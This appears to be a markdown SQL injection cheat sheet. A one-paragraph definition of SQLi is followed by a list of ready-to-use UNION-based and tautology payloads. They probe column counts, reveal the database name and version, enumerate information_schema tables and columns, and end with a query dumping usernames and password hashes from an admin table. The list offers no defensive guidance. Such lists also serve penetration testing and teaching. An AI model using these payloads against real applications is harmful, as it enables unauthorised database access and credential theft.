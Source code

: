 #### SQL Injection Methodology
SQL (Structured Query Language) Injection, mostly referred to as SQLi, is an attack on a web application database server that causes malicious queries to be executed. SQL injection is a code injection technique used to attack data-driven applications, in which malicious SQL statements are inserted into an entry field for execution (e.g. to dump the database contents to the attacker).

* SELECT DATA  
```SELECT```
* RETRIEVE DATA FROM MULTIPLE TABLES   
```UNION```
* ADD DATA     
```INSERT```

```
1 UNION SELECT 1
```
```
1 UNION SELECT 1,2
```
```
1 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,3
```
```
0 UNION SELECT 1,2,database()
```
```
' or1=1-- -
```
```
' OR 1=1;--
```
```
' UNION SELECT NULL,NULL,NULL,NULL-- -
```
```
' UNION SELECT 1,2,3,4-- -
```
```
123123' UNION SELECT NULL,NULL,NULL,NULL-- -
```
```
123123' UNION SELECT NULL,database(),NULL,NULL-- -
```
```
123123' UNION SELECT NULL,@@version,NULL,NULL-- -
```
```
123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,table_name,NULL,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,table_name,table_schema,NULL from information_schema.tables-- -
```
```
123123' UNION SELECT NULL,column_name,table_schema,NULL from information_schema.columns-- -
```
```
123123' UNION SELECT NULL,column_name,table_name,NULL from information_schema.columns-- -
```
```
123123' UNION SELECT NULL,user,hash,NULL from admin-- -
```
